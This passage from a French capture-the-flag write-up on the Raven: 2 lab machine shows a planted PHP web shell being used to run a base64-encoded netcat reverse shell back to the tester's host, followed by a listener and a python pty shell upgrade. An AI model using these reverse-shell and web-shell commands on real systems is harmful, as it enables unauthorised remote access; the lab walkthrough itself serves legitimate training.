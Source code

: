 ```console
01211 === CONNECT [127.0.0.1]
```

![Affichage de l'image INDEX-Backdoor.png](INDEX-Backdoor.png)

Les commandes sont donc exécutées en tant que ```uid=33(www-data) gid=33(www-data) groups=33(www-data)``` c'est parfait. À présent, nous allons mettre en place [un reverse shell à l'aide de netcat](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/#Netcat) : le bout de code ```nc -e /bin/bash 192.168.56.101 12345``` va créer une connexion sur le port 12345 entre le serveur Raven: 2 (192.168.56.102) et notre propre machine (192.168.56.101). Pour cela, il faut transmettre cette ligne de commande via le paramètre cmd, et en base64 qui plus est.

```console
root@blinils:~# echo -n "nc -e /bin/bash 192.168.56.101 12345" | base64
bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNTYuMTAxIDEyMzQ1

root@blinils:~# curl http://192.168.56.102/vendor/blinils.php?cmd=bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNTYuMTAxIDEyMzQ1
^C
```

En parallèle, la commande ```nc -nlvp 12345``` a été lancé dans un autre terminal... et c'est le shell !

```console
root@blinils:~# nc -nlvp 12345
listening on [any] 12345 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 36182

python -c 'import pty; pty.spawn("/bin/bash")'
www-data@Raven:/var/www/html/vendor$ 

www-data@Raven:/var/www/html/vendor$ id; uname -a;
id; uname -a;
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux

www-data@Raven:/var/www/html/vendor$ 
```
